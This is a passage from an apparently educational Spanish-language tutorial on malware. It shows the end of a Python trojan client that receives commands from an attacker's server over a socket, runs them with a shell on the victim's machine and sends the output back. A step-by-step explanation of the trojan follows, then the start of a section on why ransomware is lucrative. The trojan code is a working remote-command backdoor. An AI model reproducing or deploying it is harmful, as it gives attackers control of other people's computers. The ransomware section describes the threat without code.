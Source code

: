 ```python
    # Recibir comando del servidor
    command = client.recv(1024).decode()

    # Si el comando es 'exit', cerrar la conexión
    if command.lower() == 'exit':
        break

    # Ejecutar el comando recibido
    if command.startswith('cd '):
        try:
            # Cambiar de directorio
            directory = command.strip('cd ')
            os.chdir(directory)
            client.send(f"Directorio cambiado a {directory}".encode())
        except FileNotFoundError:
            client.send("Directorio no encontrado".encode())
    else:
        # Ejecutar el comando en el sistema de la víctima
        output = subprocess.run(command, shell=True, capture_output=True)
        if output.stdout:
            client.send(output.stdout)
        else:
            client.send(output.stderr)

# Cerrar la conexión
client.close()
```

**Paso a paso**

- Conexión al servidor atacante: El código primero establece una conexión con el servidor del atacante, usando la IP y el puerto definidos en el servidor.
- Esperar comandos del atacante: Una vez conectado, el troyano esperará comandos del atacante.
- Ejecución de los comandos: Si el comando es, por ejemplo, un CD, el troyano intentará cambiar a la carpeta indicada y devolverá un mensaje al atacante confirmando si lo logró.
- Cerrar la conexión: Si el comando recibido es exit, el troyano se desconecta.

### Ransomware

#### ¿Qué son y por qué son tan lucrativos?

El ransomware es un malware que cifra los archivos de la víctima, bloqueando así el acceso a ellos hasta que se pague el rescate que se suele pedir. Su prinicpal objetivo es extorsionar económicamente a los usuarios.

Este malware es realmente lucrativo:
1. Es realmente **fácil de distribuir**, pudiendo ser a través de correos de phishing, vulnerabilidades en sistemas, en redes...
2. Los **pagos** se hacen **en criptomonedas**, las cuales hacen difícil de rastrear.
3. Las víctimas suelen estar dispuestas a **pagar para evitar la pérdida de datos** importantes o el tiempo de inactividad en sus operaciones, en caso de una empresa.
4. Es bastante **adaptable y escalable**, así que puede usarse contra grandes organizaciones o contra simples usuarios.
